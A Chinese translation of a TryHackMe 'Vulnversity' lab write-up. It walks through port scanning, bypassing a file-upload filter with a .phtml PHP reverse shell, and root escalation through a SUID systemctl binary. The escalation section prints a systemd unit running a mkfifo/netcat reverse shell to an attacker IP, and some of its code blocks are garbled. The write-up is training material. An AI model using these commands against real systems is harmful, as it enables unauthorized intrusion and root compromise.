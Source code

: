 # TryHackMe: Vulnversity

> 原文：<https://infosecwriteups.com/tryhackme-vulnversity-70ceeb601757?source=collection_archive---------0----------------------->

![](img/675a74e18fd6c08527bb02815a0aa81b.png)

这个房间主要关注主动侦察、web 应用攻击和权限提升。

**【任务 1】部署机器**

**【任务二】侦察**

在给定的机器上启动 nmap 扫描:

```
nmap -sC -sV -oN nmap/initial <ip>
```

![](img/91afda69e0f6e19d5addf71375c38999.png)

初始计数

我们可以看到端口 21、22、139、445、3128 和 3333 是打开的。

可以清楚地看到，操作系统是 Ubuntu，WebServer(端口 3333)在其上运行。

> 扫描盒子，有多少端口是开放的？

```
6
```

> 机器上运行的是哪个版本的 squid 代理？

```
3.5.12
```

> 这台机器最有可能运行的操作系统是什么？

```
Ubuntu
```

> web 服务器运行在哪个端口上？

```
3333
```

我们探索运行在 web 服务器上的 http 网站。

![](img/ca27b63f5cd78b7bbfe61b645776c351.png)

站点上没有任何功能/按钮可用，视图源代码中也没有任何有趣的内容。

![](img/baf70a9d36f3b6c1d8d401e4a56b74b5.png)

**【任务三】使用 GoBuster** 定位目录

我们在端口为 3333 的给定 ip 上运行 gobuster 扫描:

```
gobuster dir -u <ip>:<port> -w <wordlist-path>
```

![](img/a1e71bab5b6fa25d9e11728de15fe8b4.png)

Gobuster 扫描

我们找到一个/internal 目录，进一步的枚举指向/internal/uploads 目录。

![](img/10a42ebda3d696af609f679aec38be4b.png)

我们在/内部目录中找到一个上传表单。

![](img/bab94bcfd850c4f78ee911d44bfc3ca1.png)

> 有上传表单页面的目录是什么？

```
/internal/
```

**【任务 4】危害网络服务器**

我们试图上传一个 php 反向外壳脚本，但扩展被过滤。

![](img/9aaa5a70afee50963a04b6549753fb30.png)![](img/546e468ccdb9c25d816feae084249f04.png)

我们启动 burp 套件，并在 foxy 代理中启用它。为狙击手攻击创建一个带有不同 php 扩展名的文件。

![](img/6983ba01d3fe813661922937b297dd96.png)

我们捕获上传请求，然后发送给入侵者。

![](img/d245e873bfafca065d94096e101c0ad2.png)

我们将有效载荷作为一个简单的列表加载。

![](img/6a15216205399bae1cababe85bbe9b50.png)

我们在有效载荷的位置选项卡中添加文件扩展名。

![](img/5648a241a1bfe4fd6d5821864cb22783.png)

我们开始攻击，然后得到结果。有趣的是，我们看到每一个扩展都产生 200 的状态，但是。phtml 扩展与其他扩展不同。

![](img/3a8db754ae72b0d854915a43c588cc09.png)

我们尝试上传一个 shell.phtml(php 反向 shell)并成功上传。

我们启动一个 netcat 监听器:

```
nc -lvp 4444
```

![](img/369ac7e138f602efd9b0729beca871a3.png)

然后，我们转到/internal/uploads，单击我们上传的文件。我们的机器上有一个反向外壳。我们稳定反向外壳。

![](img/9d3085a355b84073b2a3249687bfc953.png)

目前我们是万维网数据用户。如果我们查看/etc/passwd 文件，我们会发现一个名为 **bill** 的用户。我们可以直接去/home/bill 目录，找到我们的 user.txt 标志。

> 管理 web 服务器的用户名是什么？

```
bill
```

> 什么是用户标志？

```
8bd**************************edb
```

**[任务 5]权限提升**

我们在系统中查找 SUID 的档案。SUID 向用户授予临时权限，允许其在文件所有者(而不是运行程序/文件的用户)的许可下运行程序/文件。

```
find / -perm -u=s -type f 2>/dev/null
```

![](img/6ee394d884154864e39f66c845ad8164.png)

我们看到/bin/systemctl 是一个 SUID 二进制文件。我们可以用这个来获得特权。我们查看 gtfobins 并搜索 systemctl。

参考:[[https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)

![](img/840fafeae0a5fb99c53ad1fbcd4e50d3.png)

我们创建一个临时服务，然后用它来查看 root.txt 文件。

```
TF=$(mktemp).serviceecho '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$TF/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

![](img/79634ab799451d253cea7d1cf19b4ef3.png)

同样，我们可以获得一个具有 root 权限的反向 shell。

参考:[[http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)]

```
ken=$(mktemp).serviceecho '[Service]
ExecStart=/bin/sh -c "/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc <ip> <port>"
[Install]
WantedBy=multi-user.target' >$ken/bin/systemctl link $ken
/bin/systemctl enable --now $ken
```

![](img/7c047689bca10c4fc1d93f9c152fa26b.png)

这将在我们的机器上产生一个反向 shell。

![](img/edecbbe21cc120ab37b4402087472ad6.png)

> 在系统上，搜索所有 SUID 文件。什么文件比较突出？

```
/bin/systemctl
```

> 成为 root 并获取最后一个标志(/root/root.txt)

```
a58**************************fd5
```

TryHackMe 简介:【https://tryhackme.com/p/kaneki10007 T2